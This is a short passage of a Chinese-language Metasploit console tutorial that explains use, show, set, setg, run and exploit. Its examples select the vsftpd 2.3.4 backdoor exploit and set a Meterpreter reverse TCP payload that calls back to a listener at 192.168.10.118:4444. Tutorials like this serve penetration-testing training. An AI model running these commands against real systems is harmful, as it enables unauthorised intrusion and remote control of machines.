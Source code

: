 ```
msf>use
exploit/unix/ftp/vsftpd_234_backdoor
msf>use auxiliary/scanner/portscan/tcp 

```

|

| `show` [exploits/payloads/encoder/auxiliary/options] | 查看特定类型的可用模块列表。 |
| --- | --- |

```
msf>show payloads
msf> show options        

```

|

| `set` [options/payload] | 为特定对象设置值。 |
| --- | --- |

```
msf>set payload windows/meterpreter/reverse_tcp
msf>set LHOST 192.168.10.118
msf> set RHOST 192.168.10.112
msf> set LPORT 4444
msf> set RPORT 8080        

```

|

| `setg` [options/payload] | 全局分配值给特定对象，因此在打开模块时值不会改变。 |
| --- | --- |

```
msf>setg RHOST   192.168.10.112       

```

|

| `run` | 在设置所有必需选项后启动辅助模块。 |
| --- | --- |

```
msf>run      

```

|

| `exploit` | 启动 exploit。 |
| --- | --- |
